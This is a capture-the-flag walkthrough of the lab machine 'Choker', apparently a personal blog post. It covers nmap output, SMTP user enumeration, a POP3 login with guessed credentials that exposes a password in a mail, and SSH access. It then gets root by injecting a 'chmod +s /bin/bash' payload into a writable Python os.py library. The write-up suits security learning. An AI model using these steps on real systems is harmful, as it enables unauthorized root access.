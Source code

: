 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/85688bde-6d42-4a30-921b-12355b314457)

first enumeration with nmap

```
# Nmap 7.93 scan initiated Sat May 27 02:11:10 2023 as: nmap -sC -sV -T4 -oN quicknmap.txt -Pn 10.150.150.56
Nmap scan report for chocker.localhost (10.150.150.56)
Host is up (0.20s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f2381f67bf488d17a25c6607eaa21ca9 (RSA)
|   256 bb2df9aa436d5f8a46ba838979f8f165 (ECDSA)
|_  256 476a80eecb0e3b6c80db1b6328dc9131 (ED25519)
25/tcp  open  smtp    Postfix smtpd
|_smtp-commands: chocker.localhost, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: CAPA TOP RESP-CODES SASL(PLAIN LOGIN) PIPELINING USER AUTH-RESP-CODE UIDL
143/tcp open  imap    Dovecot imapd (Ubuntu)
|_imap-capabilities: ID LITERAL+ SASL-IR LOGIN-REFERRALS AUTH=PLAIN listed have post-login IDLE ENABLE more AUTH=LOGINA0001 capabilities Pre-login OK IMAP4rev1
Service Info: Host:  chocker.localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 27 02:12:20 2023 -- 1 IP address (1 host up) scanned in 70.02 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/932b3c5c-f098-4b03-83a4-f17489a9ab65)

noticed a web server running on port 80, opening it on a browser, got redirected to a default apache webpage. checked the source page for sus comments, got none. did dir brute force found nothing. let's move to the next port.

### Enumerating smtp port (25)

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c1f39976-ea8c-4c35-b85d-772e5e5fe245)

found an smtp user_enum script on github [USR-25](https://github.com/SxNade/USR-25). let's run this script.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f80d6c0e-3b7b-40c4-ae21-2f8e9544ed46)

cool we got the users on smtp, let's enumerate further. 


### Enumerating pop3 port (110)

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/pwntilldawn/choker]
└─$ telnet chocker.localhost 110
Trying 10.150.150.56...
Connected to chocker.localhost.
Escape character is '^]'.
+OK Dovecot (Ubuntu) ready.
USER operator
+OK
PASS operator
+OK Logged in.
LIST
+OK 1 messages:
1 689
.
RETR 1
+OK 689 octets
Return-Path: <sysadmin@chocker.com>
X-Original-To: operator@localhost
Delivered-To: operator@chocker.com
Received: from chocker.com (unknown [192.168.14.1])
        by chocker.localhost (Postfix) with ESMTP id A514BE0E1C
        for <operator@localhost>; Thu,  4 Jun 2020 15:23:04 +0000 (UTC)
Subject: Password Reset

Hello Operator!

As you requested, I've reset your password to access the server.
I'm glad you still remembered your mail-password and were able to contact me, but don't forget it again!
Also remember to delete this mail and change your password again as soon as possible!

Here is your new password: "D0ntForgetP4sswordAgain!"

Best regards, 
your Sysadmin David.

.
```
remember we got some usernames through the smtp_userenum script, so trying the usernames gotten as user and pass, got to se `operator:operator` worked. and we got a password which is a potential ssh password `D0ntForgetP4sswordAgain!`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d1f1d400-8e2e-4b74-ab6a-f3e329bb8747)

login ssh using  `operator:D0ntForgetP4sswordAgain!` it's worked. we are in let's escalte privs.


## Privilege Escalation

```
operator@choker:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/su  
/usr/bin/passwd
/usr/bin/mount  
/usr/bin/sudo  
/usr/bin/fusermount
/usr/bin/time_teller_executer    
/usr/bin/chfn                                                                      
/usr/bin/chsh              
/usr/bin/newgrp                                                                    
/usr/bin/gpasswd            
/usr/bin/umount                                                                    
/usr/bin/at                                                                        
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign  
/snap/snapd/7777/usr/lib/snapd/snap-confine
/snap/snapd/7264/usr/lib/snapd/snap-confine
***
```
checking for suid, we can see that there's an suid binary file `/usr/bin/time_teller_executer`. let's run the file and see what it does.

```
operator@choker:~$ /usr/bin/time_teller_executer
(0.0, 0.01, 0.0, 0.0, 17190266.78)
operator@choker:~$ strings /usr/bin/time_teller_executer
/lib64/ld-linux-x86-64.so.2
MCMB|         
libc.so.6        
setuid     
clearenv                   
system             
__cxa_finalize             
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable           
u/UH         
[]A\A]A^A_          
/usr/bin/time_teller 
;*3$"         
GCC: (Debian 9.2.1-8) 9.2.1 20190909  
crtstuff.c    
***
```
using strings to check the content of the binary file, we can see it is calling in another binary file `/usr/bin/time_teller`, let's check the content of this binary file. 

```
operator@choker:~$ strings /usr/bin/time_teller 
#!/usr/bin/env python
#Timeteller-script (concept) - needs a few changes, see to-do list. 
import os
current_time = os.times()
print (current_time)
operator@choker:~$ 
```
we can see this is  python binary file is importing a python library `OS`, let's do some python library hijacking.

```
operator@choker:~$ locate os.py
***
/usr/lib/python2.7/os.py
/usr/lib/python2.7/os.pyc
/usr/lib/python2.7/encodings/palmos.py
/usr/lib/python2.7/encodings/palmos.pyc
/usr/lib/python3/dist-packages/LanguageSelector/macros.py
/usr/lib/python3/dist-packages/cloudinit/distros/centos.py
/usr/lib/python3.8/os.py
/usr/lib/python3.8/encodings/palmos.py
/usr/share/sosreport/sos/plugins/rhcos.py
operator@choker:~$ ls -al /usr/lib/python2.7/os.py
-rw-rw-r--+ 1 root root 25910 Apr  7  2020 /usr/lib/python2.7/os.py
operator@choker:~$ ls -al /usr/lib/python3.8/os.py
-rw-r--r-- 1 root root 38995 Apr 27  2020 /usr/lib/python3.8/os.py
operator@choker:~$ 
```
looking for the os module library, checking the file permission. we can see we have read and write permission to the lib `/usr/lib/python2.7/os.py`. let's modify and add a malicious payload to the file.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f6fe1c94-8fde-4996-a697-26a3208e7eae)

edit and inject a malicious payload to make `/bin/bash` an suid binary.

```
import subprocess

output = subprocess.check_output('chmod +s /bin/bash', shell=True)
print(output.decode())
```
payload

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1e2df8d0-c6aa-4c97-ae84-ea610c473c2c)

ran the suid bin `/usr/bin/time_teller_executer` and check back the `/bin/bash` and boom we made it an suid.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5a3f5ded-9404-4c4b-b4fc-51ef868e3bda)

doing `/bin/bash -p` got us a root shell. and we are done

Had Fun Yeah? 😉 
